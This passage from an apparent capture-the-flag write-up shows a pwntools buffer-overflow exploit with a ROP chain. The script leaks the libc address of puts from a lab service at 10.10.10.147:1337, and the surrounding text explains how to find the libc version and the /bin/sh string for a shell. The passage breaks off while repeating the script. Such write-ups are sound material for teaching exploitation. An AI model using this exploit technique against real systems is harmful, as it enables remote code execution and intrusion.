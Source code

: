     
    
    #!/usr/bin/env python
    
    from pwn import *
    
    context(os="linux", arch="amd64")
    #context(log_level='DEBUG')
    
    junk = "A"*120
    
    got_puts = p64(0x404018)
    plt_system = p64(0x401040)
    pop_rdi  = p64(0x40120b)
    main     = p64(0x40115f)
    payload = junk + pop_rdi + got_puts + plt_system + main
    
    p = remote("10.10.10.147", 1337)
    p.recvline()
    p.sendline(payload)
    leaked_puts = u64(p.recvline().strip()[7:-11].ljust(8,"\x00"))
    log.info("Leaked puts address: %x" % leaked_puts)
    

And it gives the address:

    
    
    root@kali# ./pwn_safe-m1_stg1.py 
    [+] Opening connection to 10.10.10.147 on port 1337: Done
    [*] Leaked puts address: 7ffa1cac8f90
    [*] Closed connection to 10.10.10.147 port 1337
    

That address will be different each time, but the bottom 12 bits (or 1.5 bytes
or 3 nibbles or 3 hex characters), in this case f90, will be constant. I can
look them up in something like [this libc
database](https://libc.nullbyte.cat/?q=puts%3Af90&l=libc6_2.24-11%2Bdeb9u4_amd64):

![1571339638972](https://0xdfimages.gitlab.io/img/1571339638972.png)

I assume it’s the only 64-bit one (since this is an x64 binary). Now I have
the offset to puts, so I can find the libc base, and then add the offset to
the `/bin/sh` string, to get that address.

The code looks like:

    
    
    #!/usr/bin/env python
    
    from pwn import *
    
    context(os="linux", arch="amd64")
    #context(log_level='DEBUG')
    
    junk = "A"*120
    
    got_puts = p64(0x404018)
    plt_system = p64(0x401040)
    pop_rdi  = p64(0x40120b)
    main     = p64(0x40115f)
    payload = junk + pop_rdi + got_puts + plt_system + main
    